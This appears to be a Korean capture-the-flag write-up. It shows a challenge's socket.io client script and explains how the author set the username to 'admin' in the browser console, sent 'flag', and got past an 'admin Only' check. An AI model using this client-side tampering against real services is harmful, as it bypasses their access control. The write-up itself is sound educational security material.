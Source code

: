     $(function () {
      var username = "guest";
      var socket = io();
      $('form').submit(function(e){
        e.preventDefault();
        socket.emit('cmd',username+":"+$('#m').val());
        $('#m').val('');
        return false;
      });
      socket.on('cmd', function(msg){
        $('#messages').append($('<li>').text(msg));
      });
    });
    
원래의 자바스크립트를 까보면 위의 내용이 나온다 
솔직히 맨 처음에는 console이 나와서 그에 맞는 명령어를 입력해주어야 되는 건가 싶어서 
이거 저거 하나씩 입력했었다 심지어 os.system까지 갔었다 
ls 등 여러 명령어를 입력하다가 이걸로는 뚫는 길이 없는 거 같아서 
위의 자바스크립트를 유심히 보았다 
간단히 변경해줄 수 있겠다 싶어서 
아래 내용으로 바꾸어서 개발자도구 콘솔에 입력해주었다 
    $(function () {
      var username = "admin";
      var socket = io();
      $('form').submit(function(e){
        e.preventDefault();
        socket.emit('cmd',username+":"+'flag');
        $('#m').val('');
        return false;
      });
      socket.on('cmd', function(msg){
        $('#messages').append($('<li>').text(msg));
      });
    });

그 후에 명령어 페이지에 flag를 쳤다 
admin Only라는 내용을 우회하고 플래그 값을 확보하였다 ㅎㅎ 
